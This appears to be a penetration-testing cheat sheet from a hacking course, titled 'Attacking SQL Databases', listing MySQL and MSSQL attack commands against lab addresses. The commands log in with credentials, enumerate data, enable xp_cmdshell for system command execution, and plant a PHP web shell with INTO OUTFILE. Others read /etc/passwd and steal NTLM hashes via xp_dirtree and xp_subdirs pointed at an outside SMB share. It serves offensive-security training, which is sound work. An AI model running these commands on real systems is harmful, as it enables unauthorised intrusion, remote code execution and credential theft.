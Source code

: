 
## Attacking SQL Databases

|**Command**|**Description**|
|---|---|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Connecting to the MySQL server.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Connecting to the MSSQL server.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|`mysql> SHOW DATABASES;`|Show all available databases in MySQL.|
|`mysql> USE htbusers;`|Select a specific database in MySQL.|
|`mysql> SHOW TABLES;`|Show all available tables in the selected database in MySQL.|
|`mysql> SELECT * FROM users;`|Select all available entries from the "users" table in MySQL.|
|`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Show all available databases in MSSQL.|
|`sqlcmd> USE htbusers`|Select a specific database in MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Show all available tables in the selected database in MSSQL.|
|`sqlcmd> SELECT * FROM users`|Select all available entries from the "users" table in MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|To allow advanced options to be changed.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|To enable the xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|To be used after each sp_configure command to apply the changes.|
|`sqlcmd> xp_cmdshell 'whoami'`|Execute a system command from MSSQL server.|
|`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Create a file using MySQL.|
|`mysql> show variables like "secure_file_priv";`|Check if the the secure file privileges are empty to read locally stored files on the system.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Read local files in MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Read local files in MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Hash stealing using the `xp_dirtree` command in MSSQL.|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Hash stealing using the `xp_subdirs` command in MSSQL.|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identify linked servers in MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identify the user and its privileges used for the remote connection in MSSQL.|

---
